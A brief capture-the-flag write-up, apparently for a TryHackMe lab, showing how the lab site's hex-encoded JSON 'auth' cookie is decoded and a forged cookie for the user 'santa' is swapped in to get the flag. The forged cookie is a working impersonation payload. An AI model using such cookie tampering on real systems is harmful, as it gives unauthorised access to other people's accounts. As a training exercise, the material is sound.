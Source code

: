 # [Web Exploitation] A Christmas Crisis

IP: 10.10.58.111

### Cookie for Authentication:
- Name of cookie used for authentication: `auth`
- `letri:letri` `Cookie: auth=7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226c65747269227d`

### Encoding for cookie:
- Hexadecimal
`{"company":"The Best Festival Company", "username":"letri"}`
- Cookie decoder: https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')

### Format of data:
- JSON

### Santa's cookie:
- `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`

### Flag:
- Changed the local storage cookie to the santa's cookie
- Flag `THM{MjY0Yzg5NTJmY2Q1***********}`

